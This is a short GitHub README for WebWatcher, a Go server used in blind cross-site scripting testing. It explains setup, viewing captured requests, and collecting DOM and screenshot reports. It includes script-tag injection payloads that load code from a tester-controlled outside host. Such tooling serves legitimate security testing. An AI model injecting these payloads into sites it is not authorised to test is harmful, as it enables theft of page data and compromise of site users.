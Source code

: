 # WebWatcher  
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup  


Setup .wwconfig and add it to your home directory.  
Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]  

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)  


### Collecting simple request data from path you specified in config  
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
if you specified `"CollectorPath":"example"` in config file 
and set .js extensions with payload `alert(1)` in `assets/extensions.json`  
and insert this payload to the website, alert will popup.  
`<script src=https://domain.com/example.js></script>`  

### Collecting data from blind XSS  
You can find detailed report for your XSS, with DOM and Screenshort.
`<script src=https://example.com></script>`  
![blind xss](_img/blindxss.png)  



